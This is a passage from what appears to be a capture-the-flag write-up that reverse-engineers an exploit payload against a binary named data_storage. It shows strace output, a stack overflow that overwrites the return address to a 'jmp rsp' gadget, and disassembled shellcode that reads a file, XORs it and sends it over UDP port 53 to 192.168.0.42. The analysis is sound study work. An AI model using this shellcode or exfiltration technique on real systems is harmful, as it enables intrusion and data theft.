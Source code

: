 Run the binary with the payload and trace system calls:
```
$ strace ./data_storage < payload.bin
...
write(1, "good bye!", 9good bye!)       = 9
write(1, "\n", 1)                       = 1
open("data/santa_data.txt", O_RDONLY)   = -1 ENOENT (No such file or directory)
read(-2, 0x7ffd3b422d00, 32)            = -1 EBADF (Bad file descriptor)
socket(AF_INET, SOCK_DGRAM, IPPROTO_IP) = 3
sendto(3, "\0237\1\0\0\1\0\0\0\0\0\0 \357\276\255\336\357\276\255\336\357\276\255\336\357\276\255\336\357\276\255"..., 50, 0, {sa_family=AF_INET, sin_port=htons(53), sin_addr=inet_addr("192.168.0.42")}, 16) = 50
exit(0)                                 = ?
+++ exited with 0 +++
```

The part after printing `good bye` interests us the most. We can see reading of Santa's file and then sending (something)
to `192.168.0.42:53`.

Now we need to understand exactly what the payload does (I used [GDB](https://www.gnu.org/software/gdb/) with [GEF](https://gef.readthedocs.io/en/master/#dependencies)):
- `3 ` - Processed by the `show_menu` function (quit the program).
- `48*A` - Smashing the stack up to `RET` address.
- `1041 4000 0000 0000` - Overwriting the RET address with a jump to `0x00404110` (this is where the hashed password is stored,
  so the payload won't work with a different password than `lovebug1`).
- At `0x00404110` there is `jmp rsp` (jump onto the stack and execute the rest of the payload):
  ```
    0x40410e                  add    BYTE PTR [rax], al
  → 0x404110 <pwd_hash+0>     jmp    rsp # jump onto the stack
    0x404112 <pwd_hash+2>     mov    dl, 0x8b
  ```  
- Rest of payload disassembled (see [Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)):
  ```
  0x00007fffffffe270:  push   0x747874 # txt
  0x00007fffffffe275:  movabs rdi,0x2e617461645f6174 # .atad_at 
  0x00007fffffffe27f:  push   rdi
  0x00007fffffffe280:  movabs rdi,0x6e61732f61746164 # nas/atad
  0x00007fffffffe28a:  push   rdi
  0x00007fffffffe28b:  mov    rdi,rsp # ARG0: const char *filename
  0x00007fffffffe28e:  xor    rsi,rsi
  0x00007fffffffe291:  xor    rdx,rdx
  0x00007fffffffe294:  mov    eax,0x2 # 'open' syscall
  0x00007fffffffe299:  syscall
  0x00007fffffffe29b:  mov    rdi,rax # ARG0: unsigned int fd
  0x00007fffffffe29e:  movabs rdx,0x100010000
  0x00007fffffffe2a8:  push   rdx
  0x00007fffffffe2a9:  push   0x0 # make space on stack for reading the file (4x8 bytes)
  0x00007fffffffe2ab:  push   0x0
  0x00007fffffffe2ad:  push   0x0
  0x00007fffffffe2af:  push   0x0
  0x00007fffffffe2b1:  mov    rsi,rsp # ARG1: char *buf
  0x00007fffffffe2b4:  movabs rdx,0x2000000000000001
  0x00007fffffffe2be:  push   rdx
  0x00007fffffffe2bf:  movabs rdx,0x13713000000
  0x00007fffffffe2c9:  push   rdx
  0x00007fffffffe2ca:  mov    edx,0x20 # ARG2: size_t count 
  0x00007fffffffe2cf:  mov    eax,0x0 # 'read' syscall
  0x00007fffffffe2d4:  syscall
  0x00007fffffffe2d6:  xor    rcx,rcx
  0x00007fffffffe2d9:  xor    DWORD PTR [rsi+rcx*1],0xdeadbeef # loop: XOR file data with 0xdeadbeef
  0x00007fffffffe2e0:  add    rcx,0x4
  ```